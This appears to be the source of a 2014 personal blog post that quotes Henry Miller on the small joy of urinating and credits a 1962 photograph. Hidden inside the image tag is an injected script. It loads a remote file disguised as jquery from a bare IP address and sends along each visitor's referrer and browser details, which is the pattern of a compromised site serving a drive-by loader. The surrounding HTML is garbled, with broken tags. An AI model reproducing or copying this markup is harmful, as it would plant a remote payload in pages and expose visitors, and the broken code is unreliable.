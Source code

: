 ```yaml
---
layout: post
title: 'May You Have A Really Excellent Wee Today'
date: 09-Apr-2014
categories: tbd
---
```


# May You Have A Really Excellent Wee Today

## 9th April 2014

<p “To relieve a full bladder is one of the great human joys.”</p>

<img class="photo-horiz" ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  1962 /Manfred KREINER /sc" src="/images/2014/04/77e9120e53ae75c3c5fbaeb8adf0ea97.jpg" />

<p Photograph 1962,   by Manfred Kreiner,   Henry Miller's thoughts on urination via Maria Popova at <a href="http://www.brainpickings.org/index.php/2013/04/11/henry-miller-on-the-joy-of-urination/">Brain Pickings. </a></p>

Sometime we need Henry Miller to remind us to stop, be in the moment, and enjoy the small wondrous pleasures of being alive, like a nice wee.

Also from the wonderful old goat in 1950: “Develop an interest in life as you see it; the people, things, literature, music - the world is so rich, simply throbbing with rich treasures, beautiful souls and interesting people. Forget yourself.”

 
